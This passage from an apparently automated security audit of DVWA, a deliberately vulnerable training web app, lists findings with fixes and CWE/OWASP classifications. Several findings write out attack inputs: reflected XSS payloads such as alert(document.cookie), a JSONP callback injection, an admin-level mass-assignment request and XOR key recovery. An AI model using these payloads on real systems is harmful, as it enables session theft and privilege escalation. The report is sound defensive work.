**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-015](#w-015) - Login passwords submitted in GET query strings (`low.php:8`)

**Issue:** The brute-force login forms send username and password as GET parameters. Passwords are recorded in Apache access logs, browser history, proxies and `Referer` headers. Anyone with access to those records can reuse them to log in.

**Evidence:** ✓ verified - \$pass = `$_GET['password']` in brute `low.php:8`, `medium.php:9` and `high.php:13`. The handlers trigger on `$_GET['Login']`.

**Fix:** ◑ [M-050](#m-050) — Accept login credentials only in POST bodies over TLS

**Classification:** Cryptographic Failures · STRIDE: Spoofing · [CWE-598](https://cwe.mitre.org/data/definitions/598.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-07](#tc-authn-07)

<a id="t-050"></a><a id="f-050"></a>
#### F-050 · CAPTCHA state trusted from client-supplied field

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/captcha/source/medium.php:55`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** A bot posts `step=2` with `passed_captcha=true`. The server trusts this client-supplied flag and changes the password without a solved CAPTCHA.

**Evidence:** ✓ verified

**Fix:** ◑ [M-054](#m-054) — Enforce authorization on the server

**Classification:** Broken Access Control · STRIDE: Spoofing · [CWE-602](https://cwe.mitre.org/data/definitions/602.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-053"></a><a id="f-053"></a>
#### F-053 · CAPTCHA bypass by submitting step 2 directly

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/captcha/source/low.php:45`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** A bot posts `step=2` with `password_new` and `password_conf` directly. Step 2 never checks that the CAPTCHA was solved, so the bot changes the password with no human verification.

**Evidence:** ✓ verified

**Fix:** ◑ [M-057](#m-057) — Verify CAPTCHA in the same request as the change

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-841](https://cwe.mitre.org/data/definitions/841.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-054"></a><a id="f-054"></a>
#### F-054 · API-created users all receive the same default password

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/api/src/UserController.php:167`

**Found by:** verification ([TC-AUTHN-04](#tc-authn-04))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** A caller creates a user through POST `/vulnerabilities/api/v2/user/`. The new user's password is always `sha256('password')`, a fixed known value hashed with a fast, unsalted hash. Anyone who knows the default can authenticate as any newly created user wherever this hash is checked.

**Evidence:** ✓ verified - `addUser` builds new `User(..., hash("sha256", "password"))`. The seeded users at lines 31-33 also hold bare `SHA-256` hashes.

**Fix:** ◑ [M-058](#m-058) — Require a caller-chosen password hashed with password_hash

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-1393](https://cwe.mitre.org/data/definitions/1393.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/) · Verification items: [TC-AUTHN-04](#tc-authn-04)

<a id="t-067"></a><a id="f-067"></a>
#### F-067 · Access log trusts client X-Forwarded-For as source IP

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** Multiple locations (2)

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Instances (2):** `vulnerabilities/bac/source/high.php`: 92; `vulnerabilities/bac/source/impossible.php`: 188

**Issue:** A user probing other profiles sets X-Forwarded-For to an arbitrary address. The BAC log records that forged value instead of `REMOTE_ADDR`, so the user's unauthorized access attempts are attributed to another host.

**Evidence:** ✓ verified

**Fix:** ◑ [M-070](#m-070) — Log REMOTE_ADDR unless proxy is trusted

**Classification:** Missing Audit Logging & Accountability · STRIDE: Repudiation · [CWE-348](https://cwe.mitre.org/data/definitions/348.html) · [OWASP A09:2025](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/)

<a id="t-068"></a><a id="f-068"></a>
#### F-068 · Legacy v1 user API discloses password hashes

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/api/src/User.php:45`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An unauthenticated attacker requests GET `/vulnerabilities/api/v1/user/`. The version taken from the URL selects `toArray` case 1, which includes each user's unsalted `SHA-256` password hash for offline cracking.

**Evidence:** ✓ verified

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ◑ [M-071](#m-071) — Stop exposing internal information to clients

**Classification:** Error Information Disclosure · STRIDE: Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-069"></a><a id="f-069"></a>
#### F-069 · Repeating-key XOR used as message encryption

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/cryptography/source/low.php:35`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-008](#w-008) - Security-sensitive data uses weak cryptographic primitives

**Issue:** An attacker encodes known plaintext, XORs it with the output to recover the key 'wachtwoord', and decrypts the intercepted message to obtain the password.

**Evidence:** ✓ verified

**Fix:** Replace the broken algorithm with a vetted modern primitive (AES-GCM / Argon2id / Ed25519) → ◑ [M-072](#m-072) — Replace the weak cryptographic algorithm

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-070"></a><a id="f-070"></a>
#### F-070 · Broken hash primitive

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/captcha/source/impossible.php:19`

**Reliability:** Low. Not confirmed, this may be a false positive: md5 on line 19 hashes `password_conf` only for an equality check against the new password. No storage or integrity use is shown there.

**Weakness:** [W-008](#w-008) - Security-sensitive data uses weak cryptographic primitives

**Issue:** `MD5`/SHA-1 are collision-broken; unsafe for passwords or integrity of untrusted data.

**Evidence:** ◌ ambiguous

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◑ [M-004](#m-004) — Manual review: verify Broken hash primitive PHP · ◕ [M-011](#m-011) — Use modern cryptographic hash and KDF algorithms

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-328](https://cwe.mitre.org/data/definitions/328.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-04](#tc-authn-04), [TC-CRYPTO-01](#tc-crypto-01) · Rules: CRYPTO-PHP-001

<a id="t-071"></a><a id="f-071"></a>
#### F-071 · Config backup with DB credentials copied into web root

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `dvwa/includes/DBMS/MySQL.php:138`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** Setup copies `config/config.inc.php` to `config.inc.php.bak` under the web root; Apache serves .bak as plain text, so an attacker requests it and reads database credentials.

**Evidence:** ✓ verified

**Fix:** ◑ [M-073](#m-073) — Remove config backup from web root

**Classification:** Error Information Disclosure · STRIDE: Information Disclosure · [CWE-530](https://cwe.mitre.org/data/definitions/530.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-072"></a><a id="f-072"></a>
#### F-072 · Attacker-triggerable account lockout

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/brute/source/impossible.php:88`

**Reliability:** Low. Not confirmed, this may be a false positive: Failed logins increment `failed_login` per username (line 88), but the lockout threshold and \$account_locked logic lie outside the supplied window.

**Issue:** An attacker submits three wrong passwords for a victim's username every 15 minutes. `failed_login` stays at or above the threshold, so the victim cannot log in even with the correct password. Each failure also holds a worker for 2-4 seconds.

**Evidence:** ◌ ambiguous

**Fix:** ◑ [M-005](#m-005) — Manual review: verify Attacker-triggerable account lockout · ◑ [M-074](#m-074) — Throttle by client and avoid hard per-user lockout

**Classification:** Denial of Service · STRIDE: Denial of Service · [CWE-645](https://cwe.mitre.org/data/definitions/645.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-076"></a><a id="f-076"></a>
#### F-076 · Help page evals contents

**Severity:** 🟡 Medium - elevated to High as a verified attack-chain keystone in AC-T-006 (Remote Code Execution via Server-Side Injection); see [§9](#9-abuse-cases)  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/view_help.php:20`

**Found by:** verification ([TC-INPUT-03](#tc-input-03), [TC-FILE-01](#tc-file-01))

**Reliability:** Medium. An automatic check confirmed part of the claim.

**Weakness:** [W-010](#w-010) - Application data crosses into executable code

**Issue:** An authenticated user calls `view_help.php` with id and locale values that contain ../ sequences. The server reads any file whose path ends in `help/help.php` or help/help.`<locale>`.php and runs it through eval, so a file the attacker controls at such a path is executed as PHP.

**Evidence:** ✓ verified - \$_GET id and locale are interpolated into the `file_get_contents` path, and the result is passed to eval with no allow-list or containment check. Exploitation needs an attacker-writable file at a matching help/ path, which the read sources do not show.

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ◕ [M-076](#m-076) — Remove server-side evaluation of untrusted input

**Classification:** Code Execution via Unsafe Deserialization or Eval · STRIDE: Elevation of Privilege · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2025](https://owasp.org/Top10/2025/A08_2025-Software_or_Data_Integrity_Failures/) · Verification items: [TC-INPUT-03](#tc-input-03), [TC-FILE-01](#tc-file-01)

<a id="t-077"></a><a id="f-077"></a>
#### F-077 · Eval of help file chosen by request path

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/view_help.php:20`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An authenticated user controls the id and locale values that build the path of a file whose contents are passed to eval. Any reachable file named `help/help.php` under a traversed directory is executed as PHP.

**Evidence:** ✓ verified

**Fix:** ◑ [M-077](#m-077) — Allowlist help module ids and include safely

**Classification:** Code Execution via Unsafe Deserialization or Eval · STRIDE: Elevation of Privilege · [CWE-98](https://cwe.mitre.org/data/definitions/98.html) · [OWASP A08:2025](https://owasp.org/Top10/2025/A08_2025-Software_or_Data_Integrity_Failures/)

<a id="t-078"></a><a id="f-078"></a>
#### F-078 · Image upload keeps original name without re-encoding

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/upload/source/high.php:20`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-016](#w-016) - Image upload keeps original name without re-encoding (`high.php:20`)

**Issue:** An authenticated user uploads an image-valid polyglot file with embedded script content. It is stored unmodified under its original name, where another inclusion flaw could execute it.

**Evidence:** ✓ verified

**Fix:** Validate uploaded file type, size, and storage path; never execute uploaded content → ◑ [M-078](#m-078) — Re-encode images and store under random names

**Classification:** Insecure File Handling · STRIDE: Elevation of Privilege · [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-079"></a><a id="f-079"></a>
#### F-079 · Security controls gated by client-controlled cookie

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `dvwa/includes/dvwaPage.inc.php:205`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** `dvwaSecurityLevelGet` returns the security cookie, which selects whether hardened or vulnerable code and cookie flags apply; any user sets `security=low` to disable protections.

**Evidence:** ✓ verified

**Fix:** ◑ [M-079](#m-079) — Store security level server-side

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-565](https://cwe.mitre.org/data/definitions/565.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-080"></a><a id="f-080"></a>
#### F-080 · Profile authorization trusts client user_id

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/bac/source/low.php:33`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An attacker sets the `user_id` cookie to a victim's ID and requests that ID. The check compares two values the attacker controls, so the attacker can view any user's profile.

**Evidence:** ✓ verified

**Fix:** ◑ [M-080](#m-080) — Authorize against server-side session user

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-565](https://cwe.mitre.org/data/definitions/565.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-081"></a><a id="f-081"></a>
#### F-081 · IDOR guarded by static public token

**Severity:** 🟡 Medium - verified attack-chain keystone in AC-T-002 (Bulk Data Exfiltration via Broken Object Authorization); see [§9](#9-abuse-cases)  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/bac/source/medium.php:26`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-004](#w-004) - Authorization is implemented route by route

**Issue:** An attacker adds `token=user_token`, the value disclosed in the HTML comment, and requests any `user_id`. The attacker receives that user's profile with no ownership check.

**Evidence:** ✓ verified

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◑ [M-081](#m-081) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-082"></a><a id="f-082"></a>
#### F-082 · Unauthenticated user API allows mass assignment

**Severity:** 🟡 Medium - elevated to High as a verified attack-chain keystone in AC-T-002 (Bulk Data Exfiltration via Broken Object Authorization), AC-T-004 (Privilege Escalation via Mass-Assignment on Registration); see [§9](#9-abuse-cases)  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/api/src/UserController.php:225`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-012](#w-012) - Privileged attributes lack an enforced write allowlist

**Issue:** Any caller can send PUT `/vulnerabilities/api/v2/user/2` with `{"name":"x","level":0}`. The controller copies the level field into the user object without any authentication or authorization check, which sets the user to admin level.

**Evidence:** ✓ verified

**Fix:** ◕ [M-082](#m-082) — Allowlist client-controlled fields

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-100"></a><a id="f-100"></a>
#### F-100 · User keeps using a withdrawn right

**Severity:** 🟡 Medium - verified attack-chain keystone in AC-B-006 (User keeps using a withdrawn right); see [§9](#9-abuse-cases)  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/cryptography/source/token_library_impossible.php:103`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** `check_token_impossible` accepts a stateless GCM token and resolves the user from a static array. The token has no expiry, no revocation list and no server-side session, so a withdrawn right or account keeps working. `Token.php`'s `decrypt_token` also does not check 'expires' itself.

**Evidence:** ✓ verified

**Fix:** ◑ [M-083](#m-083) — Re-check current roles and account status when a session or token is used

**Classification:** Broken Authentication · STRIDE: Elevation of Privilege · [CWE-613](https://cwe.mitre.org/data/definitions/613.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-047"></a><a id="f-047"></a>
#### F-047 · Open redirect substring allow check bypassable

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/open_redirect/source/high.php:5`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An attacker supplies an external URL that contains `info.php` in its query string. The strpos check passes and the victim is redirected off-site.

**Evidence:** ✓ verified

**Fix:** ◑ [M-051](#m-051) — Use exact-match redirect allowlist

**Classification:** Open Redirect · STRIDE: Spoofing · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-048"></a><a id="f-048"></a>
#### F-048 · Open redirect to arbitrary URL

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/open_redirect/source/low.php:4`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An attacker sends a DVWA link whose redirect parameter names an external site. The server redirects the victim there, which enables phishing.

**Evidence:** ✓ verified

**Fix:** ◑ [M-052](#m-052) — Map redirect IDs to an allowlist of targets

**Classification:** Open Redirect · STRIDE: Spoofing · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-049"></a><a id="f-049"></a>
#### F-049 · Open redirect scheme denylist bypassable

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/open_redirect/source/medium.php:11`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An attacker uses a protocol-relative URL. The regex only rejects explicit http and https schemes, so the victim is redirected off-site.

**Evidence:** ✓ verified

**Fix:** ◑ [M-053](#m-053) — Replace scheme denylist with target allowlist

**Classification:** Open Redirect · STRIDE: Spoofing · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-057"></a><a id="f-057"></a>
#### F-057 · Request URI reflected unescaped into inline script string

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/api/source/low.php:47`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-006](#w-006) - Frontend rendering lacks enforced output encoding

**Issue:** An attacker sends a victim a link to the API lab page whose query string contains a single-quote breakout such as '-`alert(document.cookie)`-'. `REQUEST_URI` is inserted inside a JavaScript string literal in the served page, so the injected code runs in the victim's DVWA origin.

**Evidence:** ✓ verified

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-061](#m-061) — JSON-encode server values embedded

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-058"></a><a id="f-058"></a>
#### F-058 · Reflected XSS of username on brute-force login

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/brute/source/low.php:21`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-006](#w-006) - Frontend rendering lacks enforced output encoding

**Issue:** An attacker sends a victim a link whose username parameter contains script. The value is written into \$html without HTML encoding, and `index.php` renders \$html, so the script runs in the victim's DVWA session.

**Evidence:** ✓ verified

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-062](#m-062) — HTML-encode username before rendering

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-059"></a><a id="f-059"></a>
#### F-059 · Reflected XSS

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/cryptography/source/low.php:56`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-006](#w-006) - Frontend rendering lacks enforced output encoding

**Issue:** An attacker sends a victim the link `/vulnerabilities/cryptography/index.php/`">`<script>`...&lt;`/script`&gt;. `PHP_SELF` includes the path info and is written unencoded into the form action attribute, so the script runs in the victim's session.

**Evidence:** ✓ verified

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-063](#m-063) — Encode or drop PHP_SELF in form action

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-060"></a><a id="f-060"></a>
#### F-060 · Reflected script injection bypassing permissive CSP

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/csp/source/high.php:10`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-006](#w-006) - Frontend rendering lacks enforced output encoding

**Issue:** The CSP pages (low, medium, high) write the POST include value into the page body unencoded. Each level's CSP permits attacker-influenced script: low allowlists public CDNs, medium allows unsafe-inline with a static nonce, and high allows the same-origin JSONP endpoint.

**Evidence:** ✓ verified

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-064](#m-064) — HTML-encode reflected input and tighten CSP

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-061"></a><a id="f-061"></a>
#### F-061 · Unvalidated JSONP callback reflected into script response

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/csp/source/jsonp.php:12`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-006](#w-006) - Frontend rendering lacks enforced output encoding

**Issue:** An attacker who can add a script tag to a DVWA CSP challenge page points it at `vulnerabilities/csp/source/jsonp.php?callback`=`alert(document.domain)`;//. The endpoint echoes the callback verbatim before the JSON.

The browser runs the attacker's JavaScript from a same-origin, CSP-allowed source, which defeats a script-src 'self' policy.

**Evidence:** ✓ verified - Line 5 takes \$callback from `$_GET['callback']`, and line 12 echoes it unescaped as the start of the script body. The page that would include this script was not read in this job.

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-065](#m-065) — Validate JSONP callback against an identifier allowlist

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-062"></a><a id="f-062"></a>
#### F-062 · Reflected XSS of username in test credentials page

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/csrf/test_credentials.php:27`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-006](#w-006) - Frontend rendering lacks enforced output encoding

**Issue:** The posted username is SQL-escaped but not HTML-encoded, and it is interpolated into the login-state heading. Markup in the username is therefore rendered in the browser.

**Evidence:** ✓ verified

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-062](#m-062) — HTML-encode username before rendering

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-063"></a><a id="f-063"></a>
#### F-063 · Reflected XSS

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/view_source.php:85`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-006](#w-006) - Frontend rendering lacks enforced output encoding

**Issue:** An attacker sends a logged-in victim a `view_source.php` link whose id contains markup. The id is echoed unencoded into the page, so script runs in the victim's DVWA session.

**Evidence:** ✓ verified

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-066](#m-066) — HTML-encode id before output

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-064"></a><a id="f-064"></a>
#### F-064 · Reflected cross-site scripting

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/xss_r/index.php:51`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-006](#w-006) - Frontend rendering lacks enforced output encoding

**Issue:** An attacker sends an authenticated victim a link to `/vulnerabilities/xss_r/?name=``&lt;payload&gt;`. The low level reflects the name parameter unencoded. The script runs in the DVWA origin and can read the non-HttpOnly session cookie.

**Evidence:** ✓ verified - `low.php:8` appends `$_GET['name']` to \$html without encoding, and `index.php:51` places \$html into the page body that `dvwaHtmlEcho` outputs. `medium.php:8` strips only a literal '&lt;script&gt;'. `high.php:8` strips only a &lt;`s.c.r.i.p.t` pattern. All three levels send X-XSS-Protection: 0.

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-067](#m-067) — HTML-encode reflected name with htmlspecialchars

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-065"></a><a id="f-065"></a>
#### F-065 · Reflected name parameter rendered without HTML encoding

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/xss_r/source/low.php:8`

**Found by:** verification ([TC-INPUT-04](#tc-input-04))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-006](#w-006) - Frontend rendering lacks enforced output encoding

**Issue:** An attacker sends a victim a link with name=&lt;script&gt;`alert(document.cookie)`&lt;`/script`&gt;. On the low level the value is concatenated raw into the page HTML, and the X-XSS-Protection: 0 header disables the browser filter.

**Evidence:** ✓ verified - `xss_r/source/low.php:6-8` concatenates `$_GET['name']` into \$html without encoding. The `xss_r` index page that echoes \$html was not served, so the final render is not shown. The impossible level encodes with htmlspecialchars.

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-068](#m-068) — HTML-encode the reflected name parameter

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-04](#tc-input-04)

<a id="t-066"></a><a id="f-066"></a>
#### F-066 · Stored XSS payloads accepted into guestbook entries

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/xss_s/source/low.php:16`

**Reliability:** Low. Not confirmed, this may be a false positive: `Low.php` stores input with only SQL escaping, but the `dvwaGuestbook()` output rendering was not served, so whether stored payloads render unencoded is unproven.

**Weakness:** [W-006](#w-006) - Frontend rendering lacks enforced output encoding

**Issue:** An authenticated attacker signs the guestbook with a script or event-handler payload. The name field is only SQL-escaped at low, and the medium/high filters are bypassable. The payload is stored and rendered to every visitor by `dvwaGuestbook()`.

**Evidence:** ◌ ambiguous - `low.php:16` stores the message and name after only stripslashes/mysqli_real_escape_string. `medium.php:14` strips only a literal '&lt;script&gt;' and `high.php:14` only a &lt;`s.c.r.i.p.t` pattern from the name. The guestbook renderer `dvwaGuestbook()` (`xss_s/index.php:72`) was not in the served source, so output encoding is unverified.

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◑ [M-003](#m-003) — Manual review: verify Stored XSS payloads accepted into guestbook entries · ◑ [M-069](#m-069) — Encode guestbook fields on output with htmlspecialchars

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-055"></a><a id="f-055"></a>
#### F-055 · Container images referenced by floating tags without digest pinning

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - CI/CD Pipeline  ·  **Location:** Multiple locations (2)

**Found by:** survey and scanners

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Instances (2):** `compose.yml`: 29; `Dockerfile`: 1

**Issue:** The images are referenced by tag only, with no @sha256 digest. Nothing verifies their integrity or provenance. The images come from Docker official library repositories, but that does not pin the exact image bytes.

**Evidence:** ✓ verified - `Dockerfile` line 1 FROM docker.io/library/php:8-apache and line 19 COPY `--from=composer:latest`; `compose.yml` line 12 dvwa:latest with `pull_policy` always (line 14) and line 29 mariadb:10, none pinned by digest.

**Fix:** ◑ [M-059](#m-059) — Pin base and builder images by sha256 digest

**Classification:** Supply-Chain Integrity · STRIDE: Tampering · [CWE-494](https://cwe.mitre.org/data/definitions/494.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-SUPPLY-01](#tc-supply-01) · Rules: IAC-001

<a id="t-056"></a><a id="f-056"></a>
